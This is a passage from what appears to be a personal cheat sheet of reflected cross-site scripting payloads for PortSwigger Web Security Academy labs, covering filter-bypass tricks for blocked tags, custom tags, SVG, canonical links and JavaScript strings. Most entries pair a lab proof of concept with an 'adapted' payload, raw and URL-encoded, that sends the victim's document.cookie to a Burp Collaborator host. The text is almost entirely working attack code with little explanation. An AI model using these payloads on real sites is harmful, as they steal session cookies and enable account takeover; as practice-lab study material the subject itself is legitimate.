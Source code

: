 ```
</script>
```
8. Reflected XSS into HTML context with most tags and attributes blocked  
BruteForce all tagchangeEs by using xss cheat-sheet, then:
```
<iframe src="https://0a61001b0306cecac0be0a5000570086.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
Adapted:
```
<script>
location = 'https://kek.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>

ULR Encoded:

<script>
location = 'https://kek.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
9. Reflected XSS into HTML context with all tags blocked except custom ones  
```
<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```
Adapted:1
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?c="+document.cookie tabindex=1>#x

ULR Encoded:

%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?c=%22+document.cookie%20tabindex=1%3E#x
```
10. Reflected XSS with some SVG markup allowed  
```
<svg><animatetransform onbegin=alert(1)> 
```
Adapted:
```
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;>

URL Encoded:

%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;%3E
```
11. Reflected XSS in canonical link tag  
```
'accesskey='x'onclick='alert(1)
```
12. Reflected XSS into a JavaScript string with single quote and backslash escaped  
```
</script><script>alert(1)</script>
```
Adapted:
```
</script><script>document.location="http://burp.oastify.com/?c="+document.cookie</script>
```
13. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped  
```
\';alert(1);//
```